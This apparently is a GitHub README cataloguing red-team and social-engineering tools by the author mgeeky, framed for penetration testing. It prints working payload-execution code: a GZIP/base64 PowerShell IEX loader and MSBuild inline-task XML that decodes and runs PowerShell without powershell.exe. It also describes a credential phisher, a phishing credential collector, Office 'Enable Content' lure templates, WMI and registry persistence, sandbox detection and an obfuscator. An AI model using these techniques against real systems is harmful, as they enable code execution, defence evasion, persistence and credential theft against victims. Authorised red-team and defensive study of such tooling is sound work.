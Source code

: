 ## Red Teaming and Social-Engineering related scripts, tools and CheatSheets



- **`backdoor-drop.js`** - Internet Explorer - JavaScript trojan/backdoor dropper template, to be used during Penetration Testing assessments. ([gist](https://gist.github.com/mgeeky/b0aed7c1e510560db50f96604b150dac))

- **`compressedPowershell.py`** - Creates a Powershell snippet containing GZIP-Compressed payload that will get decompressed and executed (IEX)
. ([gist](https://gist.github.com/mgeeky/e30ceecc2082a11b99c7b24b42bd77fc))

    Example:

```
$s = New-Object IO.MemoryStream(, [Convert]::FromBase64String('H4sIAMkfcloC/3u/e390cGVxSWquXlBqWk5qcklmfp6eY3Fxam5STmWslZVPfmJKeGZJRkBiUUlmYo5fYm6qhhJUR3hmXkp+ebGeW35RbrGSpkKNgn9pia5faU6ONS9XNDZFer6pxcWJ6alO+RVAs4Mz8ss11D1LFMrzi7KLFdU1rQFOfXYfjwAAAA=='));
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s, [IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

- **`generateMSBuildPowershellXML.py`** - Powershell via MSBuild inline-task XML payload generation script - To be used during Red-Team assignments to launch Powershell payloads without using `powershell.exe` ([gist](https://gist.github.com/mgeeky/df9f313cfe468e56c59268b958319bcb))

    Example output **not minimized**:
    
```
C:\Users\IEUser\Desktop\files\video>python generateMSBuildPowershellXML.py     Show-Msgbox.ps1

        :: Powershell via MSBuild inline-task XML payload generation script
        To be used during Red-Team assignments to launch Powershell payloads without     using 'powershell.exe'
        Mariusz B. / mgeeky, <mb@binary-offensive.com>

[?] File not recognized as PE/EXE.

------------------------------------------------------------------------------------
<Project xmlns="http://schemas.microsoft.com/developer/msbuild/2003">

  <!--  Based on Casey Smith work, Twitter: @subTee                              -->
  <!--  Automatically generated using `generateMSBuildPowershellXML.py` utility  -->
  <!--  by Mariusz B. / mgeeky <mb@binary-offensive.com>                         -->

  <Target Name="btLDoraXcZV">
    <hwiJYmWvD />
  </Target>
  <UsingTask TaskName="hwiJYmWvD" TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v    4.0.dll" >
    <Task>
    <Reference Include="System.Management.Automation" />
      <Code Type="Class" Language="cs">
        <![CDATA[
            using System.Management.Automation;
            using System.Management.Automation.Runspaces;
            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;

            public class hwiJYmWvD : Task {
                public override bool Execute() {

                    byte[] payload = System.Convert.FromBase64String("JHMgPSBOZXctT2JqZ    WN0IElPLk1lbW9yeVN0cmVhbSgsIFtDb252ZXJ0XTo6RnJvbUJhc2U2NFN0cmluZygn    SDRzSUFJOUxjbG9DLzN1L2UzOTBjR1Z4U1dxdVhsQnFXazVxY2tsbWZwNmVZM0Z4YW0    1U1RtV3NsWlZQZm1KS2VHWkpSa0JpVVVsbVlvNWZZbTZxaGhKVVIzaG1Ya3ArZWJHZV    czNVJickdTcGtLTmduOXBpYTVmYVU2T05TOVhORFpGZXI2cHhjV0o2YWxPK1JWQXM0T    Xo4c3MxMUQxTEZNcnppN0tMRmRVMXJRRk9mWFlmandBQUFBPT0nKSk7IElFWCAoTmV3    LU9iamVjdCBJTy5TdHJlYW1SZWFkZXIoTmV3LU9iamVjdCBJTy5Db21wcmVzc2lvbi5    HemlwU3RyZWFtKCRzLCBbSU8uQ29tcHJlc3Npb24uQ29tcHJlc3Npb25Nb    2RlXTo6RGVjb21wcmVzcykpKS5SZWFkVG9FbmQoKTs=");
                    string decoded = System.Text.Encoding.UTF8.GetString(payload);

                    Runspace runspace = RunspaceFactory.CreateRunspace();
                    runspace.Open();

                    Pipeline pipeline = runspace.CreatePipeline();
                    pipeline.Commands.AddScript(decoded);
                    pipeline.Invoke();

                    runspace.Close();
                    return true;
                }
            }
        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
------------------------------------------------------------------------------------
```
    
**minimized**
    
```
C:\Users\IEUser\Desktop\files\video>python generateMSBuildPowershellXML.py     Show-Msgbox.ps1 -m                     
                                                                                                                  
        :: Powershell via MSBuild inline-task XML payload generation     script                                       
        To be used during Red-Team assignments to launch Powershell payloads without     using 'powershell.exe'       
        Mariusz B. / mgeeky, <mb@binary-offensive.com>                                                                
                                                                                                                  
[?] File not recognized as PE/EXE.                                                                                    
                                                                                                                  
------------------------------------------------------------------------------------                                  
<Project xmlns="http://schemas.microsoft.com/developer/msbuild/2003"><Target     Name="mYOYInAFWE"><DpaYaokgauWBJbe />
</Target><UsingTask TaskName="DpaYaokgauWBJbe" TaskFactory="CodeTaskFactory"     AssemblyFile="C:\Windows\Microsoft.Ne
t\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll"><Task><Reference     Include="System.Management.Automation" /><
Code Type="Class" Language="cs"><![CDATA[using System.Management.Automation;using     System.Management.Automation.Run
spaces;using Microsoft.Build.Framework;using Microsoft.Build.Utilities;public class     DpaYaokgauWBJbe:Task{public ov
erride bool Execute(){byte[]    x=System.Convert.FromBase64String("JHMgPSBOZXctT2JqZWN0IElPLk1lbW9yeVN0cmVhbSgsIFtDb25
2ZXJ0XTo6RnJvbUJhc2U2NFN0cmluZygnSDRzSUFMQkxjbG9DLzN1L2UzOTBjR1Z4U1dxdVhsQnFXazVxY2tsbW    ZwNmVZM0Z4YW01U1RtV3NsWlZQZ
m1KS2VHWkpSa0JpVVVsbVlvNWZZbTZxaGhKVVIzaG1Ya3ArZWJHZVczNVJickdTcGtLTmduOXBpYTVmYVU2T05T    OVhORFpGZXI2cHhjV0o2YWxPK1J
WQXM0TXo4c3MxMUQxTEZNcnppN0tMRmRVMXJRRk9mWFlmandBQUFBPT0nKSk7IElFWCAoTmV3LU9iamVjdCBJTy    5TdHJlYW1SZWFkZXIoTmV3LU9ia
mVjdCBJTy5Db21wcmVzc2lvbi5HemlwU3RyZWFtKCRzLCBbSU8uQ29tcHJlc3Npb24uQ29tcHJlc3Npb25Nb2Rl    XTo6RGVjb21wcmVzcykpKS5SZWF
kVG9FbmQoKTs=");string d=System.Text.Encoding.UTF8.GetString(x);Runspace     r=RunspaceFactory.CreateRunspace();r.Open
();Pipeline p=r.CreatePipeline();p.Commands.AddScript(d);p.Invoke();r.Close();return     true;}}]]></Code></Task></Usi
ngTask></Project>                                                                                                     
------------------------------------------------------------------------------------                              
```

- **`delete-warning-div-macro.vbs`** - VBA Macro function to be used as a Social Engineering trick removing "Enable Content" warning message as the topmost floating text box with given name. ([gist](https://gist.github.com/mgeeky/9cb6acdec31c8a70cc037c84c77a359c))

- **`Invoke-Command-Cred-Example.ps1`** - Example of using PSRemoting with credentials passed directly from command line. ([gist](https://gist.github.com/mgeeky/de4ecf952ddce774d241b85cfbf97faf))

- **`MacroDetectSandbox.vbs`** - Visual Basic script responsible for detecting Sandbox environments, as presented in modern Trojan Droppers implemented in Macros. ([gist](https://gist.github.com/mgeeky/61e4dfe305ab719e9874ca442779a91d))

- **`Macro-Less-Cheatsheet.md`** - Macro-Less Code Execution in MS Office via DDE (Dynamic Data Exchange) techniques Cheat-Sheet ([gist](https://gist.github.com/mgeeky/981213b4c73093706fc2446deaa5f0c5))

- **`macro-psh-stdin-author.vbs`** - VBS Social Engineering Macro with Powershell invocation taking arguments from Author property and feeding them to StdIn. ([gist](https://gist.github.com/mgeeky/50c4b7fa22d930a80247fea62755fbd3))

- **`msbuild-powershell-msgbox.xml`** - Example of Powershell execution via MSBuild inline task XML file. On a simple Message-Box script.
 ([gist](https://gist.github.com/mgeeky/617c54a23f0c4e99e6f475e6af070810))

- **`muti-stage-1.md`** - Multi-Stage Penetration-Testing / Red Teaming Malicious Word document creation process. ([gist](https://gist.github.com/mgeeky/6097ea56e0f541aa7d98161e2aa76dfb))

- **`Phish-Creds.ps1`** - Powershell oneline Credentials Phisher - to be used in malicious Word Macros/VBA/HTA or other RCE commands on seized machine. ([gist](https://gist.github.com/mgeeky/a404d7f23c85954650d686bb3f02abaf))

    One can additionally add, right after `Get-Credential` following parameters that could improve pretext's quality during social engineering attempt:
    - `-Credential domain\username` - when we know our victim's domain and/or username - we can supply this info to the dialog
    - `-Message "Some luring sentence"` - to include some luring message

- [**`PhishingPost`**](https://github.com/mgeeky/PhishingPost) - (PHP Script intdended to be used during Phishing campaigns as a credentials collector linked to backdoored HTML <form> action parameter.

- [**`RobustPentestMacro`**](https://github.com/mgeeky/RobustPentestMacro) - This is a rich-featured Visual Basic macro code for use during Penetration Testing assignments, implementing various advanced post-exploitation techniques.

- **`set-handler.rc`** - Quickly set metasploit's multi-handler + web_delivery (separated) handler for use with powershell. ([gist](https://gist.github.com/mgeeky/bf4d732aa6e602ca9b77d089fd3ea7c9))

- **`SubstitutePageMacro.vbs`** - This is a template for the Malicious Macros that would like to substitute primary contents of the document (like luring/fake warnings to "Enable Content") and replace document's contents with what is inside of an AutoText named `RealDoc` (configured via variable `autoTextTemplateName` ). ([gist](https://gist.github.com/mgeeky/3c705560c5041ab20c62f41e917616e6))

- **`warnings\EN-Word.docx`** and **`warnings\EN-Excel.docx`**  - Set of ready-to-use Microsoft Office Word shapes that can be pasted / inserted into malicious documents for enticing user into clicking "Enable Editing" and "Enable Content" buttons.

- **`WMIPersistence.vbs`** - Visual Basic Script implementing WMI Persistence method (as implemented in SEADADDY malware and further documented by Matt Graeber) to make the Macro code schedule malware startup after roughly 3 minutes since system gets up. ([gist](https://gist.github.com/mgeeky/d00ba855d2af73fd8d7446df0f64c25a))

- **`Various-Macro-Based-RCEs.md`** - Various Visual Basic Macros-based Remote Code Execution techniques to get your meterpreter invoked on the infected machine. ([gist](https://gist.github.com/mgeeky/61e4dfe305ab719e9874ca442779a91d))

- **`vba-macro-mac-persistence.vbs`** - (WIP) Working on VBA-based MacPersistance functionality for MS Office for Mac Macros. ([gist](https://gist.github.com/mgeeky/dd184e7f50dfab5ac97b4855f23952bc))

- **`vba-windows-persistence.vbs`** - VBA Script implementing two windows persistence methods - via WMI EventFilter object and via simple Registry Run. ([gist](https://gist.github.com/mgeeky/07ffbd9dbb64c80afe05fb45a0f66f81))

- [**`VisualBasicObfuscator`**](https://github.com/mgeeky/VisualBasicObfuscator) - Visual Basic Code universal Obfuscator intended to be used during penetration testing assignments.
